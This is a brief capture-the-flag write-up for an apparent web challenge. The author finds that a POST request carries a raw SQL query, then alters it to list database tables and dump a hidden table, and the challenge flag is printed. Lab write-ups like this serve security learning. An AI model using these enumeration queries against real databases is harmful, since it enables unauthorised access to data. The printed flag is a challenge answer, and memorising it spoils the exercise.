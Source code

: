 Write-up:

1. When analyzing the GET request to /, we find a POST request used to get the
planet information to display. This request uses a SQL query we can manipulate.

2. Altering the query to
`query=SELECT table_name FROM information_schema.tables WHERE table_schema=database();`
shows us there is another table:
    ```json
    [{
        "TABLE_NAME": "abandoned_planets"
    }, {
        "TABLE_NAME": "planets"
    }]
    ```

3. `query=SELECT * FROM abandoned_planets;` shows us the flag: 
**flag{9c4dea2d8ae5681a75f8e670ac8ba999}**